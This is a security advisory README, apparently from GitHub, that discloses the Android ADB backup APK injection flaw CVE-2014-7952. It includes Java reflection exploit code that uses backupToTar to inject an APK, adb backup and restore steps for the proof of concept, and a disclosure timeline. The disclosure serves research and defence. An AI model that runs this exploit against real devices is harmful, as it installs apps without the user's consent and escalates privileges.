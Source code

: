 # ADB-Backup-APK-Injection
Android ADB backup APK Injection vulnerabilty discovered by Imre Rad (SEARCH-LAB Ltd.), Hungary.

What is ADB backup/restore?
---------------------------
The Android Operating System offers a backup/restore mechanism of installed packages through the ADB utility.
By default, full backup of applications including the private files stored in /data is performed, but this behaviour can be customized by implementing a [BackupAgent](http://developer.android.com/reference/android/app/backup/BackupAgent.html) class. This way applications can feed the backup process with custom files and data.
The backup file created is a simple compressed tar archive with some Android specific headers. Optional encryption is also possible.

APK injection vulnerability
---------------------------
The backup manager, which invokes the custom BackupAgent's does not filter the data stream returned by the applications. While a BackupAgent is being executed during the backup process, it is able to inject additional applications (APKs) into the backup archive without the user's consent. Upon restoration of the backup archive, the system installs the injected, additional application (since it is part of the backup archive and the system believes it is authentic).

The Backup Manager can be exploited through simple reflection to inject the arbitrary additional APK:

```
// package name of the application to be injected. This will be one of the arguments of backupToTar() method
String packageName = "com.searchlab.wifitest"; 

Method backupToTar;
Method getData;
try {
	// looking up the internal Classes
	Class<?> fullbackupClass = Class.forName("android.app.backup.FullBackup");
	Class<?> backupDataOutputClass = Class.forName("android.app.backup.BackupDataOutput");
	
	// fetching reference to the backupToTar method and making it accessible for us
	backupToTar = fullbackupClass.getDeclaredMethod("backupToTar", String.class, String.class, String.class, String.class, String.class, backupDataOutputClass);
	backupToTar.setAccessible(true);		
	
	// we also need getData() method
	getData = FullBackupDataOutput.class.getDeclaredMethod("getData");
	getData.setAccessible(true);
	
	// and now let the magic begin!
	Object backupData = getData.invoke(data);
	backupToTar.invoke(null, packageName, null, null, getFilesDir().toString(), getFilesDir()+"/_manifest", backupData);
	backupToTar.invoke(null, packageName, "a", null, getFilesDir().toString(),getFilesDir()+"/com.searchlab.wifitest-1.apk", backupData);
	
	// that's all, folks
	Log.v("MYBACKUP", "backuptotar invoked!");
	
} catch (Exception e) {
	e.printStackTrace();
}
```

Proof of Concept
----------------
In this repository you can find an application along with it's source code which can demonstrate the vulnerabilty.
It was tested on Android 4.4.4 and Android 5.1.1.

Step 1: Install ADB_Backup_Injection.apk (com.searchlab.backupagenttest):

![ADB Backup Injection, custom BackupAgent](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-backupagenttest2.png "ADB Backup Injection, custom BackupAgent")

This application *does not require any permissions*.

Step 2: Use the following command to create a backup of this package
```
adb backup -f backup.ab -apk com.searchlab.backupagenttest
```

Step 3 (optional): If you want to examine the backup archive just created, use the [ABE](https://github.com/nelenkov/android-backup-extractor) tool:
```
java -jar d:\tools\abe\android-backup-extractor-20140630-bin\abe.jar unpack backup.ab backup.tar
```
![ADB Backup Injection, the tar file with the injected content](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-tar-file.png "ADB Backup Injection, the tar file with the injected content")

In the tar file you will find the injected second application (com.searchlab.wifitest).

Step 4: Use the following command to restore the archive:
```
adb restore backup.ab
```

Step 5: Verify that Wifi Test application was indeed installed.
The application runs with android.permission.CHANGE_WIFI_STATE and android.permission.ACCESS_WIFI_STATE permissions to demonstrate that privilege escalation was also possible.

![ADB Backup Injection, injected application](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-wifitest.png "ADB Backup Injection, injected application")

CVE
---
The ID CVE-2014-7952 was assigned to this vulnerability.

Affected Versions
-----------------
As of today (2015-07-08), all Android versions are affected, including Android L.

Timeline
--------
SEARCH-LAB Ltd. responsibly reported this threat to the Android security team. At first, Google did not acknowledge the issue being security relevant. Later they kept requesting more time for further investigation, but the bug was still not addressed. The most important milestones of the issue are listed in the next lines:

2014-07-14: The vulnerability was disclosed to the Android security team

2014-07-28: Google refused to treat the issue as a potential threat, but requested to hold off publishing it

2014-10-13: Asked Google for status update and requested a mug for being patient

2014-10-15: Google answered that it did not get fixed in the L release and kept requesting to hold off publishing it. Got a promise about asking around for a mug

(Several more ping-pong emails without any new info, neither a mug)

2015-06-02: Google promised further info in a few days, but it never arrived
